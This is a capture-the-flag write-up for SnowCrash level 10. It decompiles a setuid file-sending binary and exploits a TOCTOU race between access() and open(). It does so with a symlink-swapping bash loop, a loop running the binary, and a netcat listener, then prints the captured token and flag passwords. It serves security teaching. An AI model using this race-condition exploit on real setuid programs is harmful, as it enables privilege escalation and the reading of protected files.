 # Level 10
This one is my favorite

- We login as user level10.
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level10.c:
int main(int, char **);

Non-debugging symbols:
0x080484d0  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
    HUGE CODE
End of assembler dump.

(gdb) q
```


- Let's save time, we can use [Ghidra](https://en.wikipedia.org/wiki/Ghidra) to get an interpretation of the source code of this binary.
```c
int main(int argc,char **argv)
{
  ...  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
    exit(1);
  }

  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];

  iVar2 = access(pcVar6,4);
  if (iVar2 != 0) {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  else {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    ...
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    ...

    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
      exit(1);
    }

    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
      exit(1);
    }

    printf("Connected!\nSending file .. ");
    fflush(stdout);

    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
      exit(1);
    }

    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
      exit(1);
    }

    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }

  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return iVar2;
}
```


- We can see that the program makes a call to `access(argv[1])`. If this call succeeds, it will attempt to establish a socket connection to `argv[2]` through port 6969 in order to send the content of the file named `argv[1]`.


- Given that `access()` does not consider [the setuid and setgid bits](https://en.wikipedia.org/wiki/Setuid) when checking permissions, the program displays `You don't have access to the token` and then terminates.


- Note that `open()` takes into account the setuid and setgid bits when checking permissions.
So, between the time when the program calls `access(our_file)` and the time when it calls `open(our_file)`, it is possible for us to replace `our_file` with a file of the same name in order to pass the access check with a file that can be read.


- Thus, we will need 3 terminals. The first one will run `nc -lk 6969 > /tmp/pwn.log` to listen on all IPs through port 6969 and store everything it receives in `/tmp/pwn.log`.


- In a `while true` loop, the second part script creates a file accessible for reading, deletes it, and then creates a symbolic link with the same name, pointing to `/home/user/level10/token`.
```bash
#!/bin/bash
while true
do
	touch /tmp/exploit
	rm /tmp/exploit
	ln -s /home/user/level10/token /tmp/exploit
	rm /tmp/exploit
done
```


- The latter will run our binary in a loop, passing the readable file as a parameter to it.
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 "/tmp/exploit" "127.0.0.1"
done
```


- Thus:
```
level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
...
```

```
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```
flag10@SnowCrash:~$ su level11
Password:feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```